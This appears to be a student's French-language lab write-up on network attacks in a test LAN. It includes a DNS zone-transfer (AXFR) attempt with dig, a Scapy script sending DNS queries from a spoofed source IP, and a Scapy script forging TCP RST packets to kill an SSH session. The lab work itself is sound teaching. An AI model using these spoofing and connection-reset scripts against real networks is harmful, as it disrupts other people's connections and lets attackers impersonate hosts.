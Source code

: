 🌞 Requêter l'enregistrement AXFR

depuis la machine attaquante
vers le serveur dns.tp3.b2

pour la zone tp3.b2

~~~
root@efrei-xmg4agau1:/home/sacha# dig axft @10.3.3.1 tp3.b2

; << >> DiG 9.18.28-1~deb12u2-Debian << >> axft @10.3.3.1 tp3.b2
;; global options: +cmd
;; Got answer:
; ; ->>HEADER <<- opcode: QUERY, status: NXDOMAIN, id: 15347
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags :; udp: 1232
; COOKIE: 2669a0353688bd6401000000678012bcdf7ab668634f5ab3 (good)
[...]
~~~

🌞 Spoof DNS query

réussir à faire une requête DNS depuis la machine attaquante
en spoofant l'identité d'une autre machine
prouvez avec une capture Wireshark que la victime a reçu la réponse DNS*

~~~
from scapy.all import *

query = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(query[DNS].summary())
~~~
[spoofdns.pcapng](https://github.com/Ashiibi/Virtualisation/blob/main/tp3/dns_flood.pcapng)

🌞 Mettre en place une attaque TCP RST

il faut une connexion TCP établie dans le LAN
si vous visitez le site web avec un navigateur, un navigateur maintient la connexion TCP active un moment normalement (contrairement à curl)
vous pouvez aussi faire une connexion SSH entre deux machines par exemple, ce sera encore plus parlant et visible car la connexion SSH va couper d'un coup : c'est le but de l'attaque

envoyer un ou plusieurs paquets TCP RST pour terminer une connexion TCP en cours

il faut une connexion TCP en cours
il faut repérer les numéros de séquence
envoyer un TCP RST à un participant, en spoofant l'identité de l'autre
avec les bons numéros à l'intérieur
~~~
from scapy.all import *

ip_src = "10.3.3.1"
ip_dst = "10.3.3.2"
port_src = 56100
port_dst = 22

seq_num = 2819881537
ack_num = 3424035478

rst_packet = IP(src=ip_src, dst=ip_dst) / \
            TCP(sport=port_src, dport=port_dst, flags="R", seq=seq_num, ack=ack_num)

send(rst_packet)

~~~